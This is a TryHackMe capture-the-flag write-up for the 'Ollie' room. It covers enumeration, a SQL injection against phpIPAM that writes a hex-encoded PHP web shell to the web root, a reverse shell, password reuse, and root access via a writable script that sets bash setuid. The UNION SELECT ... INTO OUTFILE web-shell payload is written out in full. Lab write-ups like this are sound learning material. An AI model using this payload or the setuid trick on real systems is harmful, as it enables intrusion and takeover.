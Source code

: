 ```yaml
---
title: "Ollie"
date: 2025-03-26
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the simple nmap scan and rustscan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:10 +0545
Nmap scan report for 10.10.17.91 (10.10.17.91)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.17.91/index.php?page=login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Lets enumerate the port 80.
Hmm we spawned on a login page.
![](Pasted%20image%2020250326111427.png)

Lets enumerate further.
![](Pasted%20image%2020250326111557.png)

We might get local file inclusion vulnerability here.
Lets check.
Hmm not working.

Doing directory busting gave us many things.
![](Pasted%20image%2020250326111903.png)
![](Pasted%20image%2020250326111915.png)


Found many thing but nothing seems interesting.
![](Pasted%20image%2020250326112416.png)

Hmm lets also see that port 1337.
![](Pasted%20image%2020250326112455.png)

Interesting.
Lets move forward.
And we got the creds.
![](Pasted%20image%2020250326112621.png)
Lets try to login on login page.
```
Username: admin
Password: OllieUnixMontgomery!
```

![](Pasted%20image%2020250326112807.png)

## Exploit

Hmmm.
After searching for possible exploits of `[phpIPAM IP address management [v1.4.5]`,we can find this.
![](Pasted%20image%2020250326113019.png)

Hmm it was using a sql injection to upload php shell.
Lets try sql injection to test if it is possible.
![](Pasted%20image%2020250326114401.png)

We can find this in a edit BGP subnet mapping thing.
And we found exact number of columns.
![](Pasted%20image%2020250326114715.png)
![](Pasted%20image%2020250326114736.png)

Hmmm lets try to use that exploit we found on exploitdb.
Or we can do this.
```SQL

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/evil.php' -- -

```

So what happening here is we are using UNION attack and uploaded hexed php web shell by doing `INTO OUTFILE`  into `/var/www/html/yourfile.php` cause `/var/www/html/` is the root directory of web page.
![](Pasted%20image%2020250326120012.png)
![](Pasted%20image%2020250326115750.png)

And we can now use this to execute commands.
![](Pasted%20image%2020250326115844.png)

Now we can get reverse shell by [revshell.com](https://www.revshells.com/)
![](Pasted%20image%2020250326120130.png)

And we can also get full tty shell from here.
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

![](Pasted%20image%2020250326120530.png)

## privilege Escalation

We can get a some creds here.
![](Pasted%20image%2020250326121029.png)

But this was not working for user ollie.
After trying and enumerating different thing,there is the password reuse and we can use same password that we got before for user ollie.
![](Pasted%20image%2020250326121429.png)

Now lets try to became root.
I tried different exploits and tried to find different thing but nothing worked.
Linpeas is also not working.[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
Lets also try pspy.[pspy](https://github.com/DominicBreuker/pspy)
After seeing and trying different things,we can see this.
![](Pasted%20image%2020250326124201.png)

Lets see what is it.
Its nothing.
But we can use it to execute command as root.
```
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

chmod 4777 /bin/bash
# This is weird?
ollie@hackerdog:/tmp$

```

Here we are changing the permission of `/bin/bash` ,giving it with setuid.

![](Pasted%20image%2020250326124516.png)

And Now we are root.
![](Pasted%20image%2020250326124647.png)

## Done

And done.
![](Pasted%20image%2020250326124744.png)

Learned lots of things again.
I hope you are okay,take care :).
